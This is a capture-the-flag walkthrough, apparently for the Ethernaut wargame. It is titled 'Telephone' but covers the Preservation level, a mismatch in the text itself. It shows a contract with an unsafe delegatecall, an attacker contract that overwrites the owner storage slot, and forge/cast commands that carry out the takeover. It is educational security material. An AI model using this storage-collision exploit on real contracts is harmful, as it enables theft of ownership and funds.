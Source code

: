 ## Telephone Level Outline

**Difficulty : 8/10**

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x97E982a15FbB1C28F6B8ee971BEc15C78b3d263F)

## Solution

When a contract makes a function call using delegatecall it loads the function code from another contract and executes it as if it were its own code. 

This means that when we make a delegatecall to `timeZone1Library`, we are modifying storage slot 0 in Preservation. If we change this to point to a malicious contract, we can then create a spoof function for "setTime(uint256)" and change the owner.

### Walkthrough

1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Contract {
    uint256 storageSlot0;
    uint256 storageSlot1;
    uint256 attack_this_slot;

    function setTime(uint256 newOwner) public {
        attack_this_slot = newOwner;
    }
}
```

2. deploy our new contract
```console
forge create src/Contract.sol:Contract --private-key  $PRIVATE_KEY
```

3. changing storage slot 0 to point to our malicious contract
```console
cast send $LEVEL_ADDRESS "setFirstTime(uint)" $DEPLOYED_ADDRESS --private-key $PRIVATE_KEY
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

4. calling our exploited contract through the delegatecall and passing our address as the owner
```console
cast send $LEVEL_ADDRESS "setFirstTime(uint)" $NEW_OWNER --gas 60000 --private-key $PRIVATE_KEY
```
> Replace $NEW_OWNER with your EOA address 
